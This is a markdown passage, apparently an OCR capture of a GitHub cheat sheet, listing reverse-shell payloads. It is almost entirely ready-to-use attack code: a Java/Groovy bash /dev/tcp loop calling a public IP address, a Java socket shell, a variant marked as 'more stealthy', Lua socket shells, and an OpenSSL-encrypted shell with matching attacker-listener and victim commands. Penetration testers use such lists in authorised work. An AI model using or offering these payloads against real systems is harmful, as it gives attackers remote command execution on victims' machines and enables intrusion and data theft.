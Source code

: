 **java**

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/202.103.243.122/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- **Java Alternative 1**
    ```java
    String host="127.0.0.1";
    int port=4444;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

- **Java Alternative 2**

    **NOTE**: This is more stealthy

    ```java
    Thread thread = new Thread(){
        public void run(){
            // Reverse shell here
        }
    }
    thread.start();
    ```

**lua**
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
```bash
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

**openssl**

Attacker:
```powershell
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```
